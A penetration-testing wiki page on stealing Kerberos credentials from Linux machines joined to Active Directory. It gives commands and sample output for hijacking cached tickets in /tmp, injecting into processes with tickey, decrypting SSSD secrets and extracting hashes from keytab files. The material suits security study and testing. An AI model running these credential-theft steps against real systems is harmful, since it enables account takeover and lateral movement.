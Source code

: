 # Linux Active Directory

## Theory

A linux machine can also be present inside an Active Directory environment.

A linux machine in an AD might be **storing different CCACHE tickets inside files. This tickets can be used and abused as any other kerberos ticket**. In order to read this tickets you will need to be the user owner of the ticket or **root** inside the machine.

## Practice

{% hint style="info" %}
**Tip: convert ticket to UNIX <-> Windows format**

To convert tickets between UNIX/Windows format with [ticketConverter.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketConverter.py).

```bash
# Windows -> UNIX
ticketConverter.py $ticket.kirbi $ticket.ccache

# UNIX -> Windows
ticketConverter.py $ticket.ccache $ticket.kirbi
```
{% endhint %}

### Tools

{% tabs %}
{% tab title="Linkatz" %}
[linikatz](https://github.com/CiscoCXSecurity/linikatz) is a tool to attack AD on UNIX. It allow you to dump credentials and kerberos cached tickets.

```bash
linikatz.sh
```
{% endtab %}
{% endtabs %}

### CCACHE ticket reuse from /tmp

{% tabs %}
{% tab title="Reuse tickets" %}
When tickets are set to be stored as a file on disk, the standard format and type is a CCACHE file. This is a simple binary file format to store Kerberos credentials. These files are typically stored in /tmp and scoped with 600 permissions

List the current ticket used for authentication with `env | grep KRB5CCNAME`. The format is portable and the ticket can be **reused by setting the environment variable** with `export KRB5CCNAME=/tmp/ticket.ccache`. Kerberos ticket name format is `krb5cc_%{uid}` where uid is the user UID.

```bash
ls /tmp/ | grep krb5cc
krb5cc_1000
krb5cc_1569901113
krb5cc_1569901115

export KRB5CCNAME=/tmp/krb5cc_1569901115
```

{% hint style="info" %}
You may use this ticket using [Pass The Ticket](../../../ad/movement/kerberos/ptt.md) techniques
{% endhint %}
{% endtab %}
{% endtabs %}

### CCACHE ticket reuse from keyring

{% tabs %}
{% tab title="Reuse tickets" %}
Processes may **store kerberos tickets inside their memory**, the [tickey](https://github.com/TarlogicSecurity/tickey) tool can be useful to extract those tickets&#x20;

{% hint style="info" %}
ptrace protection should be disabled in the machine `/proc/sys/kernel/yama/ptrace_scope = 0`&#x20;
{% endhint %}

```bash
# Configuration and build
git clone https://github.com/TarlogicSecurity/tickey
cd tickey/tickey
make CONF=Release

[root@Lab-LSV01 /]# /tmp/tickey -i
[*] krb5 ccache_name = KEYRING:session:sess_%{uid}
[+] root detected, so... DUMP ALL THE TICKETS!!
[*] Trying to inject in tarlogic[1000] session...
[+] Successful injection at process 25723 of tarlogic[1000],look for tickets in /tmp/__krb_1000.ccache
[*] Trying to inject in velociraptor[1120601115] session...
[+] Successful injection at process 25794 of velociraptor[1120601115],look for tickets in /tmp/__krb_1120601115.ccache
[*] Trying to inject in trex[1120601113] session...
[+] Successful injection at process 25820 of trex[1120601113],look for tickets in /tmp/__krb_1120601113.ccache
[X] [uid:0] Error retrieving tickets
```
{% endtab %}
{% endtabs %}

### CCACHE ticket reuse from SSSD KCM (Kerberos Cache Manager)

{% tabs %}
{% tab title="Reuse tickets" %}
SSSD maintains a copy of the database at the path `/var/lib/sss/secrets/secrets.ldb`. The corresponding key is stored as a hidden file at the path `/var/lib/sss/secrets/.secrets.mkey`. By default, the key is only readable if you have **root** permissions.

Invoking [SSSDKCMExtractor](https://github.com/mandiant/SSSDKCMExtractor)  with the --database and --key parameters will parse the database and **decrypt the secrets**.

```bash
python3 SSSDKCMExtractor.py --database secrets.ldb --key secrets.mkey
```
{% endtab %}
{% endtabs %}

### Extract Accounts From Keytab Files

The service keys used by services that run as root are usually stored in the keytab file **`/etc/krb5.keytab`**. This service key is the equivalent of the service's password, and must be kept secure.

{% tabs %}
{% tab title="Unix-Like" %}
On Linux you can use [KeyTabExtract](https://github.com/sosdave/KeyTabExtract) to extracts Key values from .keytab files

```
python3 keytabextract.py krb5.keytab 
[!] No RC4-HMAC located. Unable to extract NTLM hashes. # No luck
[+] Keytab File successfully imported.
        REALM : DOMAIN
        SERVICE PRINCIPAL : host/computer.domain
        NTLM HASH : 31d6cfe0d16ae931b73c59d7e0c089c0 # Lucky
```

You can also use the .keytab file to request a TGT directly.

```bash
kinit administrator@local.com -k -t /tmp/administrator.keytab
```
{% endtab %}

{% tab title="Windows" %}
Use [klist](https://adoptopenjdk.net/?variant=openjdk13\&jvmVariant=hotspot) to read the keytab file and parse its content. The key that you see when the [key type](https://cwiki.apache.org/confluence/display/DIRxPMGT/Kerberos+EncryptionKey) is 23 is the actual **NT Hash of the user**.

```bash
klist.exe -t -K -e -k FILE:C:\Users\User\downloads\krb5.keytab
[...]
[26] Service principal: host/COMPUTER@DOMAIN
	 KVNO: 25
	 Key type: 23
	 Key: 31d6cfe0d16ae931b73c59d7e0c089c0
	 Time stamp: Oct 07,  2019 09:12:02
[...]
```
{% endtab %}
{% endtabs %}

## References

{% embed url="https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-active-directory" %}
